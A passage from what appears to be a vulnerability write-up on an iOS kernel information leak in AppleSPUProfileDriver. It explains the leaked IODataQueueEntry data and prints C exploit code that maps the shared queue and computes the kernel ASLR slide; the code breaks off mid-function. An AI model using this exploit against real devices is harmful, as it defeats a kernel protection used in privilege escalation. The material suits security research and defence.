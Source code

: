 The first dword you can see is the `size` field of the `IODataQueueEntry` struct (0x30 in this case), which preceeds every chunk of data in the queue:

```
typedef struct _IODataQueueEntry{
    UInt32  size;
    UInt8   data[4];
} IODataQueueEntry;
```

Then we see the dword which is explicitly written to zero, the return value of the `OSIncrementAtomic` call (0x78), and the `absolutetime_to_sputime` value in the 3rd row. This data is then followed by 3 kernel pointers which are leaked off the stack. Specifically, we are interested in the 3rd pointer (`0xfffffff011034380`). From my testing (iPhone 8, iOS 12.4), this will always point into kernel's __TEXT region, so by calculating the unslid pointer we are able to deduce the kernel's slide. The full exploit for this infoleak can be seen below (some global variable definitions may be missing):

```
uint64_t check_memmap_for_kaslr(io_connect_t ioconn)
{
    kern_return_t ret;
    mach_vm_address_t map_addr = 0;
    mach_vm_size_t map_size = 0;
    
    ret = IOConnectMapMemory64(ioconn, 0, mach_task_self(), &map_addr, &map_size, kIOMapAnywhere);
    if (ret != KERN_SUCCESS)
    {
        printf("IOConnectMapMemory64 failed: %x %s\n", ret, mach_error_string(ret));
        return 0x0;
    }
    
    uint32_t search_val = 0xfffffff0; // Constant value of Kernel code segment higher 32bit addr
    uint64_t start_addr = map_addr;
    size_t search_size = map_size;

    while ((start_addr = (uint64_t)memmem((const void *)start_addr, search_size, &search_val, sizeof(search_val))))
    {
        uint64_t tmpcalc = *(uint64_t *)(start_addr - 4) - INFOLEAK_ADDR;
        
        // kaslr offset always be 0x1000 aligned
        if ((tmpcalc & 0xFFF) == 0x0)
        {
            return tmpcalc;
        }
        
        start_addr += sizeof(search_val);
        search_size = (uint64_t)map_addr + search_size - start_addr;
    }

    return 0x0;
}

mach_vm_offset_t get_kaslr(io_connect_t ioconn)
{
    uint64_t scalarInput = 1;

    // Allocte a new IOSharedDataQueue 
    // AppleSPUProfileDriverUserClient::extSetEnabledMethod
    IOConnectCallScalarMethod(ioconn, 0, &scalarInput, 1, NULL, NULL);
    
    int kaslr_iter = 0;
    while (!kaslr)
    {
        // AppleSPUProfileDriverUserClient::extSignalBreak
```
